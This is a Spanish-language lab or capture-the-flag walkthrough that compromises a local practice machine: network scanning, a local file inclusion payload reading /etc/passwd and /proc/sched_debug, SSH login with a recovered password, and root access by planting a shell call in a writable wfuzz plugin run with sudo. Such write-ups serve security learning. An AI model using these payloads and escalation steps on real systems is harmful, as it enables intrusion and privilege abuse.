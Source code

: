 Realizamos un escaneo inicial mediante ARP para identificar la dirección IP de la máquina objetivo. Como resultado, localizamos el host con la IP `192.168.0.23`.
```
sudo arp-scan -I eth0 --localnet 
```
![[Captura de pantalla de 2025-05-29 10-37-22.png]]

Realizamos una enumeración de puertos con `nmap` y descubrimos que los puertos 22 (SSH) y 80 (HTTP) se encuentran abiertos.
```
nmap -p- --open -sS -sC -sV 192.168.0.23 
```
![[Captura de pantalla de 2025-05-29 10-44-42.png]]
Al detectar que el puerto 80 (HTTP) está abierto, accedemos a la dirección IP desde el navegador para analizar el contenido que se muestra en la web.

![[Captura de pantalla de 2025-05-29 10-51-13.png]]
Observamos que hay un proceso en ejecución, por lo que continuamos con la enumeración. Utilizamos Gobuster para descubrir posibles directorios ocultos que puedan proporcionarnos más información.
```
gobuster dir -u http://192.168.0.23 -w /usr/share/wordlists/dirb/common.txt -t 40
```
![[Captura de pantalla de 2025-05-29 10-55-30.png]]

Procedemos a investigar más a fondo el archivo `index.php`. Para ello, lanzamos un escaneo con Nikto con el objetivo de detectar posibles vulnerabilidades o configuraciones inseguras.
```
sudo nikto -h http://192.168.0.23/index.php
```
![[Pasted image 20250529111054.png]]

![[Captura de pantalla de 2025-05-29 11-11-23.png]]

Nikto nos indica que el parámetro `include` podría ser vulnerable a una vulnerabilidad de inclusión local de archivos (LFI). Para comprobarlo, realizamos una petición con `curl` y observamos la información que devuelve la página.
```
curl http://192.168.0.23/index.php?include=../../../../../../../../../etc/passwd 
```

![[Pasted image 20250529125853.png]]
Aprovechando la vulnerabilidad LFI, intentamos acceder al archivo `/proc/sched_debug`, ya que anteriormente se mostró un pequeño fragmento de su contenido, lo cual indica que podría estar accesible. Este archivo proporciona información sobre las tareas (procesos) en ejecución. Para facilitar la lectura, filtramos la salida utilizando `grep` con las palabras clave `ben`, `pass`, `flag`, `task` y `cmd`, centrándonos así en los datos potencialmente relevantes.
```
curl "http://192.168.0.23/index.php?include=../../../../proc/sched_debug" | grep -i 'ben\|pass\|flag\|task\|cmd'
```
![[Captura de pantalla de 2025-05-29 17-56-45.png]]

Accedemos a la máquina mediante SSH con el usuario `ben` para continuar la enumeración y explotación:
```
sudo ssh ben@192.168.0.23
pass: B3nP4zz
```

Ejecutamos `ls -lat` para listar los archivos en el directorio home del usuario ben y encontramos el archivo `user.txt`, que contiene la flag del usuario:

![[Captura de pantalla de 2025-05-30 08-55-02.png]]
Listamos los permisos sudo del usuario ben para ver qué comandos puede ejecutar sin contraseña. Encontramos que puede ejecutar el binario `wfuzz` como sudo:
```
sudo -l
```
![[Captura de pantalla de 2025-05-30 09-00-17.png]]
Buscando archivos relacionados con `wfuzz` en los que el usuario tenga permisos de escritura, encontramos un archivo Python llamado `range.py`:
```bash
find / -writable 2>/dev/null | grep "wfuzz"
```

![[Captura de pantalla de 2025-05-30 09-26-18.png]]

Editamos el archivo vulnerable para insertar código que nos permita obtener una shell: ```ben@brain:~$ nano /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py ```Añadimos el siguiente código **al principio** del archivo para ejecutar una shell Bash:
```
import os
os.system("/bin/bash")
```


![[Captura de pantalla de 2025-05-30 09-29-51.png]]

En cuanto se ejecute, el código Python se disparará automáticamente y nos abrirá una **shell interactiva con privilegios de root**.

```bash
sudo /usr/bin/wfuzz -z range,0-10 --hl 97 http://localhost
```

![[Captura de pantalla de 2025-05-30 09-40-59.png]]
## Por qué funciona esto?

`wfuzz` está hecho en Python y al ejecutar el payload `range` importa y ejecuta `range.py`, por lo que al modificar ese archivo con código que lanza una shell (`os.system("/bin/bash")`) y ejecutar `wfuzz` con `sudo`, obtenemos una shell con privilegios de root.